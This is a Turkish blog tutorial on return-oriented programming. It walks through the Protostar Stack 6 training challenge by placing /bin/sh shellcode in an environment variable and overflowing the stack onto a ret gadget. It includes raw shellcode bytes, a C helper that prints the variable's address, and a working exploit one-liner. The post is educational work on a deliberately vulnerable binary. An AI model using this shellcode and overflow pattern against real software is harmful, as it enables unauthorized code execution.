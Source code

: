 ```yaml
---
layout: post
title:  "Return Oriented Programming (ROP) - 2"
author: "Alp Eren Işık"
date:   2020-03-22
categories: [binary-exploitation]
permalink: /:year/:month/:day/:title:output_ext
---
```


# `ROP Part 2`

Tekrardan merhaba. Yaklaşık 1 aydır birşeyler yazmıyordum ve liste birazcık kabarmaya başladı o yüzden tekrar bir `ROP` ile giriş yapayım istedim. Eğer önceki yazımı okuduysanız çok fazla teknik detaylara girmeden ve uygulama yapmadan kısaca konuyu özetlemeye çalışmıştım. Açıkcası bi uygulama yapmadığım için pek anlaşıldığını düşünmediğimden bir de uygulamalı `ROP` yazmaya karar verdim. Lafı çok uzattım sanırım hadi başlayalım.

# `Ön Hazırlık`

 `Protostar Stack 6` sorusu üzerinden gideceğim. Bende daha önceden yüklü olduğu için direk makine üzerinden çözümünü göstereceğim ancak siz isterseniz kodlarını alıp derleyip kendi cihazınız (tercihen linux) üzerinde de çalışabilirsiniz.

 `NOT - 1 :` Hangi korumaların açık/kapalı olduğuna dikkat edin. `NX` koruması dışında diğer korumaların açık olmasına gerek yok. Eğer açık olursa exploiti diğer korumaları da atlatacak şekilde geliştirmeniz gerekecek.

 `NOT - 2 :` İlerleyen zamanlarda konular oturdukça tüm korumalar aktifken neler yapabiliriz üzerine de birşeyler düşünüyorum ama şimdilik teker teker gitmekte fayda var.

 # `GO RUN`

Senaryo şu şekilde. Elimizde bir `ELF` dosya var ve bu programda `NX` koruması aktif. Yani stack içerisine shellcode yükleyemeyeceğiz. Hemen `system` komutu çalıştırabilir miyiz diye bakıyoruz ancak yazılımcının daha önce dili yanmış olacak ki bu komutun kullanılmasını kısıtlamış. Yani `ret2libc` denememiz büyük ihtimalle başarısız olacak. Hızlıca bi araştırma yapıyoruz ve imdadımıza `ROP` yani `Return Oriented Programming` saldırısının yetiştiğini görüyoruz. (Bunun ne olduğunu bilmeyen varsa hızlıca [şuraya](https://alp.run/2020/02/20/ROP_nedir.html) bi göz atsın derim.)

İlk önce sevgili `objdump` ile programımız içerisinde herhangi bir `ret` yani return işlemi yapan bir adres var mı buna bakıyoruz.


![objdump](/static/img/posts/ROP-2/0.PNG)


Gördüğünüz gibi karşımıza birkaç seçenek geldi. Bunları kenara not edip devam edelim. İlerde işimize yarayacaklar.


Şimdi sırada shellcode'umuzu hazırlamaya geldi. Stack içerisinde çalıştıramıyacaksak nerde çalıştırcaz biz bu arkadaşı ? sorusundan bizi kurtaracak olan tabi ki ortam değişkenleri yani `environment variables` olacak.


Aşağıdaki şekilde shellimizi ortam değişkeni olarak tanımlıyoruz.


        export SHELL=$(python -c "print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')


![ortam-degiskeni](/static/img/posts/ROP-2/1.PNG)


Tanımladıktan sonra bunun adresini öğrenmemiz lazım ki kullanalım.

        #include <stdio.h>
        #include <stdlib.h>

        int main(int argc, char *argv[]) {
            char* ptr = getenv("SHELL");
            printf("%p\n", ptr);
        }


![shellcode-adres](/static/img/posts/ROP-2/2.PNG)


Evet sanırım gerekli hazırlıkları yaptık. Bundan sonra yapacağımız şey programın kaç karakterden sonra `eip` registerı üzerine yazdığını bulmak olacak. Bu kısımları çokça anlattığım için tekrar anlatmayacağım. Ben `80` olarak buldum.


Artık yapbozun parçalarını bir araya getirebiliriz. Yapacağımız şey aslında çokda yabancı olmadığımız birşey. `EIP` registerının üzerine programın içerisinde `ret` komutunu çalıştıran bir adresi verip daha sonra da bu komuta döneceği yerin bizim `SHELL` adresimiz olması gerektiğini söyleyeceğiz.


Böylelikle stack içerisine shellcode yazmadan shellcode çalıştırıp komut satırına erişim sağlayacağız.


Hadi deneyelim...


    (python -c "print 'A' * 80 + '\x5f\x83\x04\x08\xa5\xf9\xff\xbf'"; cat) | ./stack6


![shellcode-adres](/static/img/posts/ROP-2/3.PNG)


Ve bingo ! Shellimizi aldık.
